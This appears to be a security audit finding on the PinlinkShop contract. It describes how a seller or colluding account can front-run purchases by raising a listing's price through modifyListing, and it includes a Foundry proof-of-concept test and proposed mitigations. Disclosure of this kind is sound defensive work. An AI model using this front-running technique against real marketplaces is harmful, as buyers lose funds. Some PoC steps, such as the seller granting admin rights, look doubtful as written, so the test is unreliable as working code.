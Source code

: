 Keen Iris Lizard

Medium

# Front-Running purchase with modifyListing

### Summary

An attacker can front-run a PinlinkShop.purchase call by modifying the listing’s usdPricePerFraction via modifyListing, causing buyers to overpay in PIN tokens. The maxTotalPinAmount check limits extreme hikes but not subtle ones, disrupting fair pricing.

### Root Cause

- In PinlinkShop.modifyListing:

```solidity
if (usdPricePerFraction > 0) {
    _listings[listingId].usdPricePerFraction = usdPricePerFraction;
    emit PriceUpdated(listingId, usdPricePerFraction);
}
```
- No delay prevents immediate price changes. In PinlinkShop.purchase:
```solidity
uint256 totalPinPayment = IPinlinkOracle(oracle).convertFromUsd(address(PIN), totalUsdPayment);
if (totalPinPayment > maxTotalPinAmount) revert SlippageExceeded();
```
- maxTotalPinAmount doesn’t protect against small price increases within the buyer’s tolerance.

### Internal Pre-conditions

- A listing exists with a modifiable usdPricePerFraction.
- Attacker can call modifyListing (e.g., via seller collusion or compromised account).

### External Pre-conditions

- Buyer submits a purchase transaction with a reasonable maxTotalPinAmount.

### Attack Path

- Seller lists 100 fractions at 1 USD each (1e18).
- Buyer submits purchase for 50 fractions with maxTotalPinAmount = 60e18 (assuming 1 PIN = 1 USD).
- Attacker front-runs with modifyListing, setting usdPricePerFraction = 1.2e18.
- Buyer pays 60 PIN (50 * 1.2e18), overpaying by 10 PIN compared to the expected 50 PIN.

### Impact

- Buyers lose value through overpayment in PIN tokens.
- Marketplace fairness is compromised, deterring users.

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.27;

import {Test} from "forge-std/Test.sol";
import {PinlinkShop} from "../src/PinlinkShop.sol";
import {FractionalAssets} from "../src/fractional/FractionalAssets.sol";
import {CentralizedOracle} from "../src/oracles/CentralizedOracle.sol";
import {IERC20} from "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";

contract PinlinkFrontRunTest is Test {
    PinlinkShop shop;
    FractionalAssets assets;
    address pinToken = address(0x1);
    address usdcToken = address(0x2);
    address owner = address(this);
    address seller = address(0x3);
    address buyer = address(0x4);
    address attacker = address(0x5);

    function setUp() public {
        CentralizedOracle oracle = new CentralizedOracle(pinToken, 1e18);
        assets = new FractionalAssets("https://example.com/");
        shop = new PinlinkShop(pinToken, address(oracle), usdcToken);

        assets.grantRole(assets.MINTER_ROLE(), address(shop));
        shop.grantRole(shop.DEFAULT_ADMIN_ROLE(), owner);

        vm.startPrank(owner);
        assets.mint(1, seller, 100);
        shop.enableAsset(address(assets), 1, seller);
        vm.stopPrank();

        vm.startPrank(seller);
        assets.setApprovalForAll(address(shop), true);
        shop.list(address(assets), 1, 100, 1e18, block.timestamp + 1 days);
        shop.grantRole(shop.DEFAULT_ADMIN_ROLE(), attacker); // Simulates collusion
        vm.stopPrank();

        deal(pinToken, buyer, 100e18);
        vm.prank(buyer);
        IERC20(pinToken).approve(address(shop), 100e18);
    }

    function testFrontRunPriceIncrease() public {
        bytes32 listingId = keccak256(
            abi.encode(address(assets), 1, seller, 100, 1e18, block.timestamp + 1 days, block.number - 1)
        );

        vm.prank(attacker);
        shop.modifyListing(listingId, 1.2e18, 0);

        uint256 buyerBalanceBefore = IERC20(pinToken).balanceOf(buyer);
        vm.prank(buyer);
        shop.purchase(listingId, 50, 60e18);

        uint256 buyerBalanceAfter = IERC20(pinToken).balanceOf(buyer);
        assertEq(buyerBalanceBefore - buyerBalanceAfter, 60e18); // Overpaid by 10 PIN
    }
}
```

### Mitigation

- Introduce a timelock (e.g., 1 block) for price updates in modifyListing.
- Cache the listing price in purchase and compare against maxTotalPinAmount.